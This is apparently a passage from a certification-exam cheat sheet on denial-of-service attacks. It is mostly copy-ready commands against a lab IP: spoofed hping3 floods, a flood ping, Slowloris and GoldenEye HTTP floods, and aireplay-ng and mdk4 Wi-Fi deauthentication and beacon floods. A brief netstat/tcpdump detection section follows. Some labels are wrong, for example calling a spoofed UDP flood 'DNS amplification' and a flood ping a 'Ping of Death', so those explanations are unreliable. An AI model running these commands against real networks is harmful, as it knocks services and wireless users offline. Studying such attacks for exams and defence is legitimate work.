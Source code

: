 UDP Flood (DNS Amplification)

```
hping3 -2 -p 53 --flood --rand-source --data 1000 10.10.10.10
```

ICMP Flood (Ping of Death)

```
ping -f -l 65500 10.10.10.10
```

### Application Layer DoS (Guaranteed Exam Task)

Slowloris Attack
```
slowhttptest -c 1000 -H -i 10 -r 200 -t GET -u http://10.10.10.10 -x 24 -p 3
```

HTTP Flood

```
goldeneye http://10.10.10.10 -m get -s 500 -w 100
```

### Wireless DoS (Exam Favorite)

Deauthentication Attack
```
aireplay-ng --deauth 1000 -a AP:MAC wlan0mon
```

Beacon Flood

```
mdk4 wlan0mon b -n "FakeAP" -c 6 -s 1000
```

### Detection & Prevention

Monitor SYN Floods
```
netstat -n -p tcp | grep SYN_RECV | wc -l
```

Check ICMP Rate

```
tcpdump -nni eth0 'icmp[icmptype] = icmp-echo' -c 100 | awk '{print $3}' | sort | uniq -c
```

### Exam-Critical Reference Table

| Attack Type       | Tool         | Command Example              | Key Flags        |
|-------------------|--------------|------------------------------|------------------|
| SYN Flood         | hping3       | `-S --flood -a spoofed_ip`   | Random source IP |
| HTTP Slow         | slowhttptest | `-c connections -i interval` | `-H` for Hold    |
| Wireless DoS      | mdk4         | `b -n "FakeAP" -s 1000`      | Channel hopping  |
| DNS Amplification | hping3       | `-2 -p 53 --data 1000`       | UDP protocol     |
